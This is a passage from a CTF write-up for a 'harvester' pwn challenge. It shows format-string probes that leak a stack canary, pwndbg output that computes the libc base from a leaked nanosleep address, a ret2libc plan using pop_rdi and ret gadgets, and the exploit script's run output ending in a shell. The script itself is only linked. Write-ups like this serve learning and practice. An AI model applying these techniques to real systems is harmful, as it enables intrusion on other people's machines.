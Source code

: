 ```
continue
```

Looking at it shows that the offset is not at offset 11 cause its value isn't equal to `0x6da4dbd944578d00`

I'll repeat the same step for offset

```
%15$p
%19$p
%39$p
```

Note that the canary address always changes each time the program runs

After trying it i got that the offset to canary is at offset 19
![image](https://user-images.githubusercontent.com/113513376/222283415-3d5ac62e-3f8a-4fd2-9eed-73745706dc7b.png)
![image](https://user-images.githubusercontent.com/113513376/222283499-11cf4c67-4429-4629-8206-76df50976b6d.png)

Cool now that we know that and we have everything neccessary to craft the exploit 

Lets perform ret2libc. Since initially we leaked the libc address of nanosleep we can now calculate the value of the libc base address

Also note that we need to subtract 35 from the leaked nanosleep address so that we can get to the base address of nanosleep
![image](https://user-images.githubusercontent.com/113513376/222284388-5016701b-a1be-4679-9b8c-fdc10799bc7d.png)

```
pwndbg> x 0x7ffff7e983b3
0x7ffff7e983b3 <__GI___clock_nanosleep+35>:     0x66c3d8f7
pwndbg> x 0x7ffff7e983b3 - 35
0x7ffff7e98390 <__GI___clock_nanosleep>:        0x7403ff83
pwndbg> 
```

With that ready i need a pop_rdi gadget to pop the value of sh in system also i will need a ret address to allign the stack to prevent movaps stack allignment
![image](https://user-images.githubusercontent.com/113513376/222285118-913d17ad-fd9f-4fea-97c0-91b96e7724a1.png)

So here's my exploit script [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/practice/harvester/exploit.py)

Running it works 👻

```
┌──(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/harvester]
└─$ python3 exploit.py                                              
[+] Starting local process './harvester': pid 30985
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Canary address: 0x38d5ddbf06eb8b00
[*] Leaked Pie address: 0x555555400f90
[*] Piebase address: 0x555555400000
[*] Leaked nano address: 0x7ffff7e98390
[*] Libc base address 0x7ffff7dc46a0
[*] /bin/sh address 0x7ffff7f5a6d1
[*] System address 0x7ffff7e109d0
[*] Switching to interactive mode
$ ls -al
total 2032
drwxr-xr-x  2 mark mark    4096 Mar  2 00:07 .
```